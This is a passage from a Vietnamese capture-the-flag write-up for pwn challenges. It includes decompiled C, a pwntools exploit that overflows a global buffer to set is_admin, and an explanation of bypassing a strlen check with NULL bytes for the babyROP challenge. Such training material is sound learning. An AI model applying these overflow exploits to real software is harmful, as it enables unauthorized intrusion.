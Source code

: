 ```cs

p.interactive()
```

- cách cuối pivot khi nào mình rảnh sẽ add vô :))


## AAA

- 1 bài khá ngắn , ta cũng thấy rõ target ở đây là change giá trị của ```is_admin```  , ở bài này ```buf``` và ```is_admin``` sẽ là 2 biến global -> ta có thể overflow biến ```buf``` và thay đổi giá trị của ```is_admin```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup(argc, argv, envp);
  printf("Input: ");
  gets(buf);
  printf("Your input: %s\n", buf);
  if ( is_admin )
    system("cat /flag");
  return 0;
}
```

exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./main',checksec=False)

p =process()

payload = b'a'*0x100
payload += p64(1)
p.sendline(payload)

p.interactive()
```

## babyROP

- bài này cũng khá ngắn , ta thấy ở đây có 1 ```bof``` rất rõ ràng , nhưng tiếp theo nó check payload của ta bằng strlen() và điều này hoàn toàn có thể bypass bằng byte NULL , ta cần nhớ là fgets nhận input đến n-1 bytes hoặc 1 newline hoặc 1 EOF , ta hoàn toàn có thể thêm bytes NULL vào payload để vượt qua được đoạn check 


```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  setup(argc, argv, envp);
  puts("Welcome to KCSC Recruitment !!!");
  printf("Data: ");
  fgets(s, 4919, stdin);
  if ( strlen(s) > 0x40 )
  {
    puts("Buffer overflow ??? No way.");
    exit(0);
  }
  puts("Thank for playing :)");
```